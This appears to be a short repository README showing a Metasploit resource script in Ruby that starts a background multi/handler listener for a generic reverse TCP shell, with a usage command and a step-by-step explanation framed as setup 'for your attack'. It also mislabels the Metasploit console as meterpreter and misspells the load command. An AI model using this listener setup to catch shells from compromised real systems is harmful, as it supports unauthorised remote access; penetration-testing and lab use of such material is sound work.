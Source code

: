 # Auto Meta

Auto start script example for meterperter

## Directions

1. Make a script to use for your attack. (mine will setup ip, port, payload, start background job)
2. Load the script in meterpreter
3. Profit. 


## Example

Name your file with .rb extension for Ruby. 

Script example `startup.rb`

```ruby
<ruby>

host = '10.10.10.10'
port = 8089
payload = 'generic/shell_reverse_tcp'

print("Setting up Fox exploit handler")

run_single("use exploit/multi/handler")
run_single("set payload #{payload}")
run_single("set LHOST #{host}")
run_single("set LPORT #{port}")
run_single("set ExitOnSession false")
run_single("run -j")

run_single("jobs")
run_single("back")
</ruby>
```

To use in meterpreter, open meterpreter.

```
msf6> resources startup.rb
```

In this script we have...

1. Set the handler
2. Set the payload
3. Set the LHOST
4. Set the LPORT
5. Set ExitOnSession false
6. Ran as a job in he background
7. List the job (check its running)
8. Set back command to return to normal meterpreter shell ready for next. 


## Screenshot

![image](https://user-images.githubusercontent.com/5285547/182806915-99214152-3fa9-4fa1-9c1d-651e179fbf7a.png)



